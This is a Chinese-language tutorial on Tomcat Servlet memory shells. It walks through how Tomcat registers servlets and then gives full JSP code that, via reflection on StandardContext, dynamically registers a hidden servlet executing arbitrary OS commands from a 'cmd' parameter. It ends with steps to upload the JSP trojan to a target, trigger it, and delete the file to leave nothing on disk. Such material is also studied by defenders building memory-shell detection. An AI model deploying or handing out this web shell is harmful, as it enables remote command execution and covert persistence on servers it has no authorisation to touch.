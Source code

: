# Servlet内存马

Servlet内存马是通过动态注册Servlet来实现的一种内存攻击手段。在Java Web应用中，Servlet作为处理客户端请求的核心组件之一，能够直接处理HTTP请求并返回响应。攻击者利用这一点，通过程序化地向Web容器（如Tomcat）在运行时注册恶意的Servlet对象，使得该Servlet能够在没有实际文件存在的情况下执行恶意程序。

在编写我们自己的内存马之前，我们需要先搞清楚一个问题：我们写的Servlet类是怎么被装载到Web容器的。

## Servlet装载流程

1. 自己写一个Servlet

```java
package com.example.memshell;

import java.io.*;

import jakarta.servlet.http.*;

public class HelloServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        PrintWriter out = response.getWriter();
        out.println("hello world");
    }
}
```

2. 在web.xml定义servlet（servlet名称和类的全路径）和servlet-mapping（servlet和对应的uri）

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="https://jakarta.ee/xml/ns/jakartaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="https://jakarta.ee/xml/ns/jakartaee https://jakarta.ee/xml/ns/jakartaee/web-app_6_0.xsd"
         version="6.0">
    <servlet>
        <servlet-name>HelloServlet</servlet-name>
        <servlet-class>com.example.memshell.HelloServlet</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>HelloServlet</servlet-name>
        <url-pattern>/hello</url-pattern>
    </servlet-mapping>
</web-app>
```

3. tomcat的加载部分

不卖关子，在ContextConfig#configureContext(WebXml webxml)部分。

![image](assets/image-20250619094644-3rrashb.png)

这个类来自tomcat-catalina，至于版本，和tomcat运行时环境版本保持一致

```
 <dependency>
      <groupId>org.apache.tomcat</groupId>
      <artifactId>tomcat-catalina</artifactId>
      <version>10.1.23</version>
  </dependency>
```

继续分析ContextConfig#configureContext(WebXml webxml)部分

![image](assets/image-20250619094658-4z91lex.png)

观察入参的webxml实参变量，其中就包含我们在web.xml中定义的HelloServlet和映射路径信息。分别叫webxml.servlets和webxml.servletMappings。这些信息又是在哪里被处理的呢？注意函数下这两个for循环

![image](assets/image-20250619094704-pkzfywn.png)

![image](assets/image-20250619094708-qpi85dq.png)

一个是处理servlet的循环，一个是处理url映射关系的循环。这里都用到了context这个对象。

我们看一下最关键的两行添加进容器的代码，分别是

```java
context.addChild(wrapper);
```

和

```java
context.addServletMappingDecoded(entry.getKey(), entry.getValue());
```

一个是向容器上下文中添加我们的Servlet，一个是向容器声明Servlet和URL的映射关系。

context是什么，如何获取？

答：

1. 此处的context是StandardContext

![image](assets/image-20250619094715-yk3d1t7.png)

2. HttpServletRequest.getServletContext.context.context

![image](assets/image-20250619094720-x7dnstg.png)

wrapper又是什么？

答：一个servlet的包装类，用于存放servlet的全类名、servlet对象和servlet名称。

搞清楚了这点，我们接下来的思路就简单了

## 实现机制

1. 创建恶意Servlet类
2. 获取context：StandardContext（通过反射）
3. 从context获取Wrapper对象
4. 将自己的Servlet封装进wrapper对象
5. 将wrapper添加到上下文并设置映射路径

## 示例代码

```jsp
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    // 定义一个恶意servlet
    public class ShellServlet extends HttpServlet {
        @Override
        public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                BufferedReader bufferedReader = new BufferedReader(
                        new InputStreamReader(process.getInputStream()));
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    response.getWriter().println(line);
                }
            }
        }
    }
%>
<%
    // 从request中获取servletContext
    ServletContext servletContext = request.getServletContext();

    // 从servletContext中获取applicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
    // 从applicationContext中获取standardContext
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    // 从context获取Wrapper对象
    Wrapper wrapper = standardContext.createWrapper();

    // 将自己的Servlet封装进wrapper对象
    wrapper.setName("servlet-shell");
    wrapper.setServletClass(ShellServlet.class.getName());
    wrapper.setServlet(new ShellServlet());

    // 将wrapper添加到上下文并设置映射路径
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/servlet-shell", "servlet-shell");
%>
```

## 触发步骤

1. 上传jsp木马至目标服务器
2. 访问上传的jsp
3. 访问定义的恶意servlet映射路径，演示的是/servlet-shell
4. （可选）删除.jsp文件
